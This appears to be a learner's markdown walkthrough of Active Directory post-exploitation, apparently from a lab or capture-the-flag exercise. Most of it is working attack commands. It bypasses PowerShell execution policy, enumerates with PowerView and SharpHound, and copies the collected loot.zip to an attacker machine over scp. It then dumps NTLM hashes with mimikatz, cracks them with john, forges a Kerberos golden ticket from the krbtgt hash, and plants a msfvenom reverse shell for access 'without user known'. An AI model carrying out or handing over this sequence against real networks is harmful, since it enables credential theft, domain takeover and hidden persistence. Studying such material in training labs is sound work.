 # Post Exploitation Basics

Current situation: Here we already into the system with bunch of scripts and tools.

Aim: Enumerate the AD and get the domain, users, group info and much; and also make reverse shell for stable connection without system user known.

## Tools and Scripts Requirement and infomation

1. PowerView.ps1

    - Enumerate the system and get the general infomation about AD

2. mimikatz

3. bloudhound

    - Grabe the AD information and make json file for after watch use with Graph UI

4. Metasploit Frame work

    - make revershell and get stable connection between without user known

## Different Methods of On System Enumeration

1. By using PowerView (Script). this method works when you are present on the live system and you able to upload script and run it. if the system goes down or off then nothing is work.

2. By using Bloodhound (Software/tool). make the zip file of whole AD system in JSON format files and save is it in defferent/own system. in this case if the system gose down the attacker easly analysis the AD by just using blood hound.

3. By using Server Manager (Windows by default AD handling Software)

## Basic Step

- If you are using CMD then follow this command:

`powershell -ep bypass`

- this command bypass execution policy of the powershell and allow you to easly run the scripts. 

## Enumerating Method 1 using PowerService Script

- Now run the script which already present in Downloads directory.

`.\PowerView.ps1`

- After the script runs, now we can use function of this like; `Get-NetUser`, `Get-NetGroup`, `Invoke-ShareFinder` and much more

Eg.:

`Get-NetUser | select cn`

`Get-NetGroup -GroupName *admin*`

`Invoke-ShareFinder`

`Get-FullComputer -fulldata | select operatingsystem`

## Enumerating Method 2 using Bloodhound

- This method we can call post enumeration.

- Bloodhound is a graphical interface that allows you to visually map out the network.

- This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

### Part 1 (At Windows AD target system):

- run the **SharpHound.ps1** scripts which is already present in Download folder and generate zip file, Follow the command.

`.\SharpHound.ps1`

`Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

- After the genrate the file, now transfer into own kali/parrot system, by using ssh protocol

`scp loot.zip kaliuser@10.10.10.10:/home/kaliuser/Desktop/loot.zip`

### Part 2 (At Kali attacker System):

- Now start bloodhound tool on terminal

`sudo bloodhound`

- Default Username/Password: neo4j/neo4j

**Note: If the bloodhound can't find the database then follow this command: `sudo neo4j start`. it will start the database. now goto the browser and open localhost page with port which is where you get last command you wrote. Now change/create the password.**

- now upload/darg and drop the zip file onto the bloodhound window.

- Now open query window.

- press the query which we want to execute.

## Enumeration Method 3 using Server Manager

- Simply open **Server Manager** Software in live windows system and see the avalable content.

Eg.:

- Tools > AD Users and Computers

- Tools > AD Sites and Services

## Dumping Hashes

- Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.

- now run the `mimikatz.exe` using CMD and follow the bellow command:

`privilege::debug`

- ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

- Now dump hashes.

`lsadump::lsa /patch`

- it will give us all users NTLM password hashes.

- crack those hashes using john repper

`john hash.txt --format=NT --wordlist=rockyou.txt`

## Golden Ticket Attack

- We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

- If your mimikatz is not already running then follow this 2 command:

`mimikatz.exe`

`privilege::debug`

- ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

- Now dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

`lsadump::lsa /inject /name:krbtgt`

- after the run this command store some info and we will use in next command.

`kerberos::golden /user:[Username] /domain:[domain name] /sid:[SID. start with like Eg.: S-1-5-21-] /krbtgt:[NTLM value] /id:[User ID]`

- And use the Golden Ticket and login to the others user accounts.

## Maintaining Access

- Generate the payload using `msfvenom` and pass it to the target machine.

- before the the payload run into the target machine, we need to setup lisiner

- Open `msfconsole` and use `exploit/multi/handler` and set LHOST, LPORT and run it

- Now run the payload at target machine and we will get shell in attacker system.
